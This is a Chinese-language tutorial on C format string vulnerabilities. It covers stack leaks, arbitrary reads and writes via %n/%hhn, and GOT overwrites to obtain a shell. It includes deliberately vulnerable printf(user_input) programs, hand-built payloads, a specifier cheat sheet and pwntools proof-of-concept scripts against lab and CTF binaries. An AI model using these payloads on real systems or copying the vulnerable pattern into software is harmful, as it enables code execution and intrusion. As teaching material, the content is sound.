

[toc]

# 什么是格式化字符串

格式化字符串漏洞是一种比较常见的漏洞类型，主要是`printf`、`sprintf`和`fprintf`等c库中print家族的函数。

看看printf的函数声明:

```c
int printf(const char* format,...)
```

这是大家在学习c系列语言时第一个要学到的函数，输出hello world。

```c
//gcc test1.c -o test1 -m32
#include <stdio.h>
int main()
{
    printf("Hello World\n");
}
```


格式化字符串，是利用一些如%d、%s的内容将给出的字符串进行格式化，常用的参数包括

```shell
%d - 十进制 - 输出十进制整数
%s - 字符串 - 从内存中读取字符串
%x - 十六进制 - 输出十六进制数
%c - 字符 - 输出字符
%p - 指针 - 指针地址
%n - 到目前为止所写的字符数
```

给出一个例子，test2.c使用了%d、%x、%s、%n这几个格式化字符，其中%n把前面输出的字符串长度赋值给整形变量n，这里看出来一共有20个字符，加一个换行符，一共21，和运行输出一样。除了%n外，类似的功能还有%lln、%hhn等。


```c
//gcc test2.c -o test2 -m32
#include <stdio.h>
int main()
{
    int n = 0;
    printf("%d %x %s%n",1024,0x200,"Hello World\n", &n);
    printf("n = %d\n", n);
}
```


看一下运行时汇编代码，可以看到printf函数调用时依旧是是从右到左的入栈顺序，不是网上说的从左到右入栈，也可能是我的编译器对printf函数进行了优化。


# 漏洞原理

从前面简单一些输出语句可以看到printf函数按照参数格式化字符串一次打印后面的参数，但是当格式化字符串中的格式化参数多余后面的实参时，会造成什么后果，给出一个例子。

```c
//gcc test3.c -o test3 -m32
#include <stdio.h>
int main()
{
    char a[100];
    while(1){
        scanf("%s",a);
        printf(a);
        printf("\n");
    }
    return 0;
}
```


可以看到这段代码，当输入多个格式化参数时，打印出了多个数值，且划线内容为前面输入的“A”的16进制表示。实际上当格式化参数过多时，程序会继续在栈上根据格式化参数的写法进行内容读取，这样就造成了栈内的数据泄露。

# 任意数据读取

从上面的漏洞原理可以看到，如果用户可以控制格式化参数，那么就可以读取栈上的任意内容。但是向上面一样利用n个`%n`利用起来很麻烦，printf中有一个`$`操作符.这个操作符可以输出指定位置的参数，利用`%n$x`这样的字符串就可以获得对应的第`n+1`个参数的数值（因为格式化参数里边的n指的是格式化字符串对应的第n个输出参数,那么相对于输出函数来说就成了第n+1个）。

还是使用`test3`这个例子，`41414141`数据（即AAAA）出现在第七个位置，所以偏移是 6，可以使用`%6$x`来替代上面的`AAAAAAAAAAAAAAAAAAAA.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x`来获取指定的`41414141`数据。


利用这种方式，我们基本上实现了栈上地址的任意读取，但是我们的目的不是指读取栈上的数据，而是读取该程序的任意数据，这也是可以做到的。

需要利用`%s`，`%s`会读取当前栈内数据对应内存地址的数据，这里我们用程序头来测试任意数据读取。根据上面的原理，可以看到在偏移7的地方获取到了字符串开始的字符`AAAAAA`所以，我们只需要将最开始的4个字节（64位程序为8个字节）替换为ELF文件头的地址，就可以获取到ELF的文夹头内容（ELF文件加载的地址08048000+1）。这里需要写一个简单的脚本来测试。

```python
# test4.py
from pwn import*

sh = process('test3')
payload = "\x01\x80\x04\x08%6$s"
sh.sendline(payload)
print sh.recv()
```

从下图可以看到，已将ELF文件的头内容读取了出来。


# 任意数据写入

上面达到了任意读取数据的功能。格式化字符串漏洞还可以进行任意数据的写入，使用该性质最常见的操作是替换GOT表中的函数对应地址，将地址替换为`system`等可执行系统命令的函数地址，当程序再次执行到被替换地址的函数时，就可以执行我们期待的命令执行指令了。

数据写入需要使用到前面已经介绍过的格式化参数`%n`，从`test2.c`可以看到`%n`参数会把前面输出字符的长度写入到传入的参数内，如果没有这个参数，那么会把这个数字写入到当前栈中对应的偏移地址。下面代码新增了一个变量`b`。

```c
//gcc test5.c -o test5 -m32 -z norelro
#include <stdio.h>
int main()
{
    char a[100];
    int b = 0;
    printf("the address of b is : %p\n", &b);
    while(1)
    {
        scanf("%s",a);
        printf(a);
        printf("\nb is :%d\n", b);
    }
    return 0;
}
```

目的是利用格式化字符串漏洞修改b的值，可以利用下面的方式，因为前面的关系我们已经知道偏移量7，所以当使用`%6$n`来便宜到真正第一个红框的数据（b的地址）所在的栈地址，这是`n`格式化操作符会把值前面的字符串长度写入到此地址数据中，所以在下面打印b的值是已经可以看到被修改为了4。


因为输出字符的长度是可控制的，所以就可以写入任意值到指定的地址，任意长度字符使用`%1000c`，这样就相当于写了1000个字符，看一下执行效果。可以发现打印`b`的值为 1000+4 = 1004，写入了任意值。


来一个从其他地方拿来的格式化字符列表
```shell
32位
 
读
 
'%{}$x'.format(index)           // 读4个字节
'%{}$p'.format(index)           // 同上面
'${}$s'.format(index)
写
 
'%{}$n'.format(index)           // 解引用，写入四个字节
'%{}$hn'.format(index)          // 解引用，写入两个字节
'%{}$hhn'.format(index)         // 解引用，写入一个字节
'%{}$lln'.format(index)         // 解引用，写入八个字节
 
////////////////////////////
64位
 
读
 
'%{}$x'.format(index, num)      // 读4个字节
'%{}$lx'.format(index, num)     // 读8个字节
'%{}$p'.format(index)           // 读8个字节
'${}$s'.format(index)
写
 
'%{}$n'.format(index)           // 解引用，写入四个字节
'%{}$hn'.format(index)          // 解引用，写入两个字节
'%{}$hhn'.format(index)         // 解引用，写入一个字节
'%{}$lln'.format(index)         // 解引用，写入八个字节
 
%1$lx: RSI
%2$lx: RDX
%3$lx: RCX
%4$lx: R8
%5$lx: R9
%6$lx: 栈上的第一个QWORD
```

再给出一个写入方式。我们希望向0x08048000写入值0x10203040,可以这样构造:

```shell
\x00\x80\x04\x08\x01\x80\x04\x08\x02\x80\x04\x08\x03\x80\x04\x08%48c%6$hhn%240c%7$hhn%240c%8$hhn%240c%9$hhn
```

即对0x08048000写入16（前面16个地址字符）+48（%48c）=64=0x40
对0x08048001写入0x40（前面总输出的字符长度）+240（%240c）=304=0x130=0x30（因为是1个字节，所有只能留下8b，即0x30）
对0x08048002写入0x30（前面总输出的字符长度）+240（%240c）=288=0x120=0x20（因为是1个字节，所有只能留下8b，即0x20）
对0x08048003写入0x20（前面总输出的字符长度）+240（%240c）=272=0x110=0x10（因为是1个字节，所有只能留下8b，即0x10）

除了手工生成payload，还可以使用`fmtstr_payload`来生成

```python
def exec_fmt(payload):
    p = process('test5')
    p.recv()
    p.sendline(payload)
    return p.recv()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

fmtstr_payload(6, {0x08048000:0x10203040})
```


```shell
%16c%17$hhn%16c%18$hhn%16c%19$hhn%16c%20$hhn\x03\x80\x04\x08\x02\x80\x04\x08\x01\x80\x04\x08\x00\x80\x04\x08
```

其他的计算方式，如需要向地址 0xbffffffa 写入内存 0x0804a028 ——首先把值拆分：
两个高位字节（HOB）： 0xbfff
两个低位字节（LOB）： 0xffff

然后通过魔术计算公式构造一个格式化字符串：

```
\x2a\xa0\x04\x08\x28\xa0\x04\x08%.49143x%4$hn%.16379x%5$hn
```

示例成功的将canary的内容改为0xbffffffa 。

构建示例所用的公式请对照下图（魔术公式表）：


# 修改GOT表

为了更好的用户体验和内存CPU的利用率，程序编译时会采用两种表进行辅助，一个为PLT表，一个为GOT表，PLT表可以称为内部函数表，GOT表为全局函数表（每一条为一个函数的真实地址），这两个表是相对应的，什么叫做相对应呢，PLT表中的数据就是GOT表中的一个地址，可以理解为一定是一一对应的。



PLT 表中的每一项的数据内容都是对应的GOT表中一项的地址这个是固定不变的，到这里大家也知道了PLT表中的数据根本不是函数的真实地址，而是GOT表项的地址。GOT表项中的数据才是函数最终的地址，而PLT表中的数据又是GOT表项的地址，我们就可以通过PLT表跳转到GOT表来得到函数真正的地址。

下面给出一个例子`test9`，该文件中创建了一个`win`函数，而在代码中并调用此函数，我们现在需要通过格式化字符串漏洞来修改GOT表，将`exit`函数的地址修改为`win`的地址，从而在执行`exit`函数时执行的是`win`函数。

```c
//gcc test9.c -o test9 -m32 -z norelro
#include <stdio.h>

void win()
{
	system("/bin/sh");
}

void main(int argc, char *argv[])
{
	char buf[100];
	fgets(buf, 100, stdin);
	printf(buf);
	exit(0);
}
```

IDA查看 GOT 内容，使用 shift + F7 进入`Program Segmentation`窗口。


查看 GOT表内容。


找到了`exit`函数的 GOT 表地址为`0x80497D0`，下来需要找到`win`函数的地址，然后通过格式化字符串的任意字符写功能替换函数地址。如下图，找到`win`函数地址为`0x080484AB`。


有了这两个地址，即可生成 poc，其中，使用了两种 payload的生成方式，第一个 buf 可以生成带偏移的 payload，第二种使用更简洁一些。

```python
from libformatstr import *
from pwn import *

context.log_level = 'debug'
elf=ELF('./test9')
exit_got=0x80497D0
win_addr=0x80484AB
bufsiz = 100
r = process('./test9')
#p = FormatStr()
#p[exit_got] = win_addr
#buf = p.payload(10,0)
buf = fmtstr_payload(10, {exit_got:win_addr})
print buf
print "="*80
r.sendline(buf)
r.interactive()
```


同理，如果没有给出一个漏洞函数，我们可以直接修改一个函数的 GOT 表地址为`system`函数地址，可以参考[此题pwn](http://www.xianxianlabs.com/blog/wp-content/uploads/2020/06/pwn.zip)，使用 ida 打开后，主函数内容为：


可以看到分析并没有给出漏洞函数，但是可以修改 printf 函数自己的 GOT 表地址为`system`地址，然后就可以再次输入`/bin/sh`字符串，就获取了shell。给出poc

```python
from libformatstr import *
from pwn import *

printf_got=0x0804B014
system_plt=0x08048440
r = process('pwn')
buf = fmtstr_payload(6, {printf_got:system_plt})
print buf
print "="*80
r.sendline(buf)
r.sendline("/bin/sh")
r.interactive()
```

执行结果


# 参考

* [https://bbs.pediy.com/thread-253638.htm](https://bbs.pediy.com/thread-253638.htm)
* [https://www.cnblogs.com/ichunqiu/p/9329387.html](https://www.cnblogs.com/ichunqiu/p/9329387.html)
* [https://blog.csdn.net/qq_43394612/article/details/84900668](https://blog.csdn.net/qq_43394612/article/details/84900668)
* [https://blog.csdn.net/qq_18661257/article/details/54694748](https://blog.csdn.net/qq_18661257/article/details/54694748)
* [https://www.anquanke.com/post/id/147666](https://www.anquanke.com/post/id/147666)
* [https://www.cnblogs.com/ichunqiu/p/11274930.html](https://www.cnblogs.com/ichunqiu/p/11274930.html)